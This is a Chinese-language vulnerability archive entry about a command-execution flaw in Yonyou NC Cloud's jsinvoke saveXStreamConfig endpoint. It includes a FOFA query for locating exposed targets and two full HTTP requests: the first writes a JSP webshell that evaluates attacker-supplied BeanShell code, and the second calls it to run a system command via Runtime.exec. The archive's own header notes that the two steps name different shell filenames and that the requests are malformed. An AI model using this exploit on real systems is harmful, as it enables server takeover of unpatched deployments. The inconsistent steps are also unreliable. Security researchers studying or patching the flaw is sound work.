




# 用友NCCloud jsinvoke saveXStreamConfig文件写入至EL/BeanShell执行

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：用友NCCloud；jsinvoke saveXStreamConfig文件写入至EL/BeanShell执行
- 版本、配置及部署条件：版本只有截图，路径/BeanShell/CommonsIO可用条件
- 认证与权限前提：无Cookie示例，前台声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 第一步写123456789.jsp第二步访问823780482.jsp，链路径自相矛盾
- 两HTTP都缺头体空行，JSON配form-urlencoded须按服务解析解释
- 任意方法调用/文件写入是根因链，不普通上传；执行依赖EL/BeanShell
- FOFA误标题，缺修复build，关联同IBaseSPService稿

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/M057A5KF4LN9Crd_SlS4ZQ)

**漏洞简介**

NC Cloud 是用友推出的大型企业数字化平台。用友网络科技股份有限公司 NC Cloud 存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。  

**影响版本**


**FOFA 语句**

```
app="用友-NC-Cloud"

```



**漏洞复现**

抓包如下：  



上传 123456789.jsp 的 webshell

```http
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: ****
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 22 May 2021 12:02:46 GMT
If-None-Match: W/"1957-1621684966000"
Content-Length: 255
Content-Type: application/x-www-form-urlencoded
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/123456789.jsp"]}

```



执行 ipconfig 命令

```http
POST /823780482.jsp?error=bsh.Interpreter HTTP/1.1
Host: *****
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 22 May 2021 12:02:46 GMT
If-None-Match: W/"1957-1621684966000"
Content-Length: 100
Content-Type: application/x-www-form-urlencoded
cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("ipconfig").getInputStream())

```



**修复建议**

建议升级至最新版本

  

**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**公众号**内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
